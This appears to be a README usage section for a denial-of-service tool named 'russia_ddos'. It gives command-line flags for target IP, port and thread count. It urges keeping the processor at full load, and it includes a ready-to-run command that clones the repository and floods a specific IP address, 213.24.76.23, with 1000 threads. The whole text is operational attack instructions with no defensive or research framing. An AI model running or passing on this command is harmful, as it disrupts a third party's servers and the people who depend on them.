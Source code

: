 ## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor loaded up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
python -u main.py -s 213.24.76.23 -p 80 -t 1000
```
